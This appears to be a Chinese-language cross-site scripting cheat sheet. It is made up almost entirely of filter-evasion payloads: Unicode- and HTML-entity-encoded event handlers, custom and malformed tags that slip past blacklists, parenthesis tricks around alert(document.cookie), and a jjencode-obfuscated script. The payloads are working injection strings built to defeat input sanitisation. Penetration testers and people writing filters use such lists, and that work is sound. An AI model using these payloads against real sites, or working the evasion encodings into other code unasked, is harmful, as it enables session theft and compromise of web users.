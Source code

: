 "事件处理属性"可用的编码方式:\u (Hexadecimal)
```
# "事件处理属性"可用的编码方式 \u编码
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
<script>Object._ = Function,[{}][0].constructor._('co\u006efirm(666)')()</script>
```

"事件处理属性"可用的编码方式:HTML Entity (Hexadecimal)
```
html实体编码 十六进制  ( 如 字符a ->  &#x0061; )
<svg/onload=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x32;&#x29;>

html实体编码 十六进制 (不带分号 chrome下可行)
<IMG src onerror=&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

"事件处理属性"可用的编码方式:HTML Entity (Decimal)
```
原始payload为 alert(1)  也可以是更长的 javascript:alert(1)

html实体编码 十进制
<svg/onload=&#97;&#108;&#101;&#114;&#116;&#40;&#50;&#41;>

html实体编码 十进制 (不带分号 chrome下可行)
<svg/onload=&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#49&#41>
```

- 不使用有效的html标签
```
# 自定义一个名为x的tag
<x onclick=confirm()>click here
<x ondrag=confirm()>drag it
```

- Bypass tag blacklisting - 绕过HTML标签黑名单
```
# 绕过不严谨的判断 - 大小写
</ScRipT>

# 利用浏览器兼容性 - 畸形标签 删除最后的符号>
</script

# 利用浏览器兼容性 - 畸形标签 用/>替换符号>
</script/>

# 利用浏览器兼容性 - 畸形标签
</script x>
```
- 绕过某些黑名单规则 如`alert(`
```
(alert)(document.cookie)
((alert))((document.cookie))
```
- 绕过某些黑名单规则 使用[jjencode](http://utf-8.jp/public/jjencode.html) 或 [aaencode](http://utf-8.jp/public/aaencode.html)编码. 注:编码后的内容可放在"事件处理属性"中 如`onerror=`
```
<script>
// 语句 alert(document.cookie); 的 jjencode 形式:
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+");"+"\"")())();

```